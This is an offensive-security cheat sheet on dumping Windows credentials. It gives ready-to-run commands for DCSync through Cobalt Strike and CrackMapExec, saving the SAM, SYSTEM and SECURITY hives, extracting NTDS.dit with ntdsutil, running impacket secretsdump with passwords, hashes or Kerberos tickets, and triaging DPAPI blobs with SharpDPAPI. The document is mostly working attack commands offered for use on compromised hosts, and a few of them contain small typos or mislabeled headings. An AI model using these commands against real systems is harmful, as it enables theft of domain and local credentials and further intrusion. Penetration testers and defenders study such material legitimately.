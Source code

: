 # Methods of Credential Dumping

## DCSync

### Cobalt Strike

Cobalt Strike offers the “dcsync” command which is a wrapper for mimikatz.

If you have domain admin trust established with the domain controller, this will replicate all user's NTLM hashes. The command  `dcsync` is a shortcut for `mimikatz @lsadump::dcsync /domain:<domain.fqdn /all /csv`

```
dcsyn <domain.fqdn>
```

### CrackMapExec

Supports dumping NTDS via VSS or DRSUAPI. Specifying the method is optional.

```
crackmapexec smb <target> -u admin -p Password123 -d domain --ntds <drsuapi|vss>
```

### Manual DCSync using vssadmin

```
reg save hklm\sam SAM
```
```
reg save hklm\system SYSTEM
```
```
reg save hklm\security SECURITY
```

### Manual NTDS.dit Extraction using ntdsutil

```
ntdsutil "ac in ntds" i "cr fu c:\temp" q q
```

After doing one of the two manual methods, convert to a readable format with impacket on your local system.

```
impacket-secretsdump -sam /root/SAM -security /root/SECURITY -system /root/SYSTEM LOCAL
```

## Local SAM and LSA

### Cobalt Strike

Use the built-in `hashdump` command to dump local SAM hashes.

### Impacket

Use secretsdump.py to extract credentials remotely. You can do this using a password, NTLM Hash, or with a Kerberos ticket. Also supports extracting credentials from local files.

Extract with NTLM hash:
```
secretsdump.py -hashes :6d9dc9bd065d9f9a628b0f1a0c54c976 domain\username@target
```

Extract with password: 
```
secretsdump.py domain\username:password@target
```

Extract with Kerberos Ticket: 
```
secretsdump.py domain\username@target -k -no-pass
```

> To extract with Kerberos ticket first request a TGT with asktgt.py then apply the TGS ticket with export KRB5CCNAME=<TGS_ccache_file>
{.is-info}


### CrackMapExec

Extract hashes from SAM using plaintext password(-p flag):

```
crackmapexec smb <target> -u admin -p Password123 -d domain --sam
```

Extract hashes from LSA using NTLM hash (-H flag):

```
crackmapexec smb <target> -u admin -H <NTLM_HASH> -d domain --lsa
```

### SeatBelt

Extract hashes from Security Auth Packages. By default this is usually just NTLMv2.

```
Seatbelt.exe SecPackageCreds
```

### Manual Method

From the compromised machines, navigate to C:\Windows\System32\Config. This is where the SAM, SYSTEM, and Security hives are located. You cant create a copy using copy because there’s a write block on the files. Save to another location using reg save:

```
reg save hklm\sam SAM
```
```
reg save hklm\system SYSTEM
```
```
reg save hklm\security SECURITY
```

Copy over the files, SAM, SYSTEM, and SECURITY, which should now be in the current working directory to your local system and use impacket to convert them into a readable format with the command:`impacket-secretsdump -sam /root/SAM -security /root/SECURITY -system /root/SYSTEM LOCAL`

## DPAPI

### User/Machine Triaging

List all user credentials, vault, and RDG DPAPI blobs using a password. Can also be run without a password if the beacon is running under the user's context.

`SharpDPAPI.exe triage /password:X`

List all system credentials and vault DPAPI blobs. You need admin rights to execute this. This requires the system master keys that can only be retrieved by the SYSTEM user and cannot be performed remotely.

`SharpDPAPI.exe machinetriage`

### Domain Backup Key

List user credentials, vaults, and RDG blobs on a remote system using a domain backup key.

`SharpDPAPI.exe triage /pvk:[key_file | b64(key)] /server:X.domain.com`
